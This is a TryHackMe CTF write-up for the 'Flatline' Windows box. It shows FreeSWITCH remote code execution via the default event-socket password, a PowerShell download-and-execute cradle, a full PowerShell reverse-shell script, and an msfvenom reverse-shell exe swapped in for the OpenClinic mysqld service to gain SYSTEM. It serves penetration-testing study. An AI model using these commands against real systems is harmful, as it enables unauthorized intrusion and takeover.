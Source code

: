 ```yaml
---
title: Flatline 
date: 2022-09-08 01:20:00 +530
category: [ Windows, Tryhackme]
tags: [ TryHackMe, Windows, Easy ]
---
```


# Enumeration

Starting with nmap
```bash
Nmap scan report for 10.10.17.103
Host is up (0.18s latency).

PORT     STATE SERVICE          VERSION
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-02-28T10:49:22+00:00
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2021-11-08T16:47:35
|_Not valid after:  2022-05-10T16:47:35
|_ssl-date: 2022-02-28T10:49:23+00:00; 0s from scanner time.
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Looking at the results, we have port 3389(RDP) and port 8021 running `Freeswitch`.

FreeSWITCH is a free, open-source communications server software supporting VoIP, Video chat, Text chat, and even screen sharing across multiple platforms.
Looking for public exploit for this
```bash
$ searchsploit freeswitch
FreeSWITCH - Event Socket Command Execution (Metasploit)
FreeSWITCH 1.10.1 - Command Execution 
```

# Exploitation
Looking at the exploit, the exploit takes _CMD_ and _ADDRESS_ from user. Then create a socket to the address and port. It uses default password to authenticate
and use `api system` to run the commands
```python
PASSWORD='ClueCon' # default password for FreeSWITCH
if b'auth/request' in response:
    s.send(bytes('auth {}\n\n'.format(PASSWORD), 'utf8'))
    response = s.recv(1024)
    if b'+OK accepted' in response:
        print('Authenticated')
        s.send(bytes('api system {}\n\n'.format(CMD), 'utf8'))
        response = s.recv(8096).decode()
        print(response)
```
Following the steps, we have RCE on the box.
```bash
nc -nvv 10.10.53.47 8021                                                   1 ⨯
(UNKNOWN) [10.10.53.47] 8021 (zope-ftp) open
Content-Type: auth/request
auth ClueCon

Content-Type: command/reply
Reply-Text: +OK accepted

api system "whoami"
Content-Type: api/response
Content-Length: 25
win-eom4pk0578n\nekrotic

# To get reverse shell
api system "powershell.exe IEX (new-object net.webclient).downloadstring('http://10.17.1.113:8080/rev.ps1')"
```
Looking at our `rev.ps1`
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.17.1.113",9991);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Enumerating a bit, looking at other users and process, we found
```powershell
PS C:\> whoami
win-eom4pk0578n\nekrotic

PS C:\> net user 

User accounts for \\WIN-EOM4PK0578N

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
Nekrotic                 WDAGUtilityAccount    

PS C:\> net user nekrotic
User name                    Nekrotic
Local Group Memberships      *Administrators       *Users                
Global Group memberships     *None                 

PS C:\> tasklist /svc                                                                                                                                                                                                                                                                                                                          
Image Name                     PID Services                                                                                                                              
========================= ======== ============================================     
svchost.exe                   1288 DiagTrack                                    
mysqld.exe                    1464 OpenClinicMySQL                              
tomcat8.exe                    784 OpenClinicHttp                               
svchost.exe                   2060 W32Time         
...[snip]...
```
# Privilege Escalation
With a little enumeration, we find there is a projects folder in the C drive. The projects folder contains another one called "openclinic". Looking at public
exploit for the application, we found the [exploit](https://www.exploit-db.com/exploits/50448)

> A low privilege account is able to rename mysqld.exe or tomcat8.exe files located in bin folders and replace  with a malicious file that would connect back to an attacking computer giving system level privileges  (nt authority\system) due to the service running as Local System.

Following the steps, we create a malicious exe using _msfvenom_. 
```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.17.1.113 LPORT=4000 -f exe > evil.exe
```
We can now transfer the exe to victim machine, and rename the file.
```powershell
PS C:\projects\openclinic\mariadb\bin> rename-item mysqld.exe -newname mysqld.bak
PS C:\projects\openclinic\mariadb\bin> rename-item evil.exe -newname mysqld.exe
PS C:\projects\openclinic\mariadb\bin> shutdown /r now
```
Setup a listner, and we have the root shell
```powershell
nc -lvnp 4000                                                                                                                                                       
listening on [any] 4000 ...                                                                                                                                              
connect to [10.17.1.113] from (UNKNOWN) [10.10.53.47] 49670                                                                                                              
Microsoft Windows [Version 10.0.17763.737]                                                                                                                               
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                                     
                                                                                                                                                                         
C:\Windows\system32>whoami                                                                                                                                               
whoami                                                                                                                                                                   
nt authority\system     

C:\Users\Nekrotic\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 84FD-2CC9

 Directory of C:\Users\Nekrotic\Desktop

09/11/2021  07:39    <DIR>          .
09/11/2021  07:39    <DIR>          ..
09/11/2021  07:39                38 root.txt
09/11/2021  07:39                38 user.txt
               2 File(s)             76 bytes
               2 Dir(s)  50,508,554,240 bytes free

C:\Users\Nekrotic\Desktop>type root.txt
type root.txt
```
